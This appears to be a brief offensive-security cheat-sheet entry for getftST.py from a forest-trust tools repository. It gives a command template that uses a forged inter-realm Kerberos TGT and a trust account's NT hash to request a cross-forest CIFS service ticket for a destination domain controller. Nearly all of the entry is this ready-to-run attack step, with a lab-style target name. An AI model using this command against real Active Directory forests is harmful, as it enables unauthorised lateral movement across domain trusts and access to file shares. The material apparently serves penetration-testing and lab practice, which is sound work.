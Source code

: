# getftST 

% impacket-kerberos, windows, kerberos, 88, delegation, TGS, trust

## source
```
https://github.com/dirkjanm/forest-trust-tools
```

## Request cross-forest TGS using a forged inter-realm TGT
edit file and put self.__nthash = '' with trust nthash
```
KRB5CCNAME=<inter-realm_TGT> getftST.py -spn "CIFS/<dc_name>.<dest_domain_fqdn>" -target-domain <dest_domain_fqdn> -via-domain <src_domain_fqdn> "client.offshore.com/bankvault" -dc-ip <dest_domain_fqdn>
```

